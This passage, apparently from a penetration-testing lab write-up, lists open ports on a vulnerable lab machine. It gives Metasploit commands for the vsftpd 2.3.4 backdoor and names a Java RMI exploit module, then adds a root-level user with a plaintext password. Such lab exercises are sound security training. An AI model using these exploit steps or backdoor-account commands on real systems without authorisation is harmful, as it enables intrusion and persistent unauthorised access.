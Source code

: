 | Port   | State | Service | Version              |
| ------ | ----- | ------- | -------------------- |
| 21/tcp | open  | ftp     | vsftpd 2.3.4         |
| 22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian |

#### 🔐 Hidden Ports and Services

| Port      | State | Service  | Version      |
| --------- | ----- | -------- | ------------ |
| 8787/tcp  | open  | drb      | Ruby DRb RMI |
| 47436/tcp | open  | mountd   | RPC          |
| 50918/tcp | open  | java-rmi | grmiregistry |
| 59995/tcp | open  | nlockmgr | RPC          |
| 60004/tcp | open  | status   | RPC          |

---

### 💣 Task 4: Exploitation of Services

We exploited the following services:

#### 1. vsftpd 2.3.4

* Used Metasploit module:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

#### 2. Java RMI

* Used: `exploit/multi/misc/java_rmi_server`
* Exploited remote method invocation vulnerability

#### 3. Shell access (post exploit)

* Used payloads to gain shell access via exploited ports.

🖼 Screenshot: Add screenshots of Metasploit terminal or sessions.

---

### 👤 Task 5: Create User with Root Permission

#### ✅ Commands:

```bash
adduser kali
passwd kali  # (Password: 987654321)
```
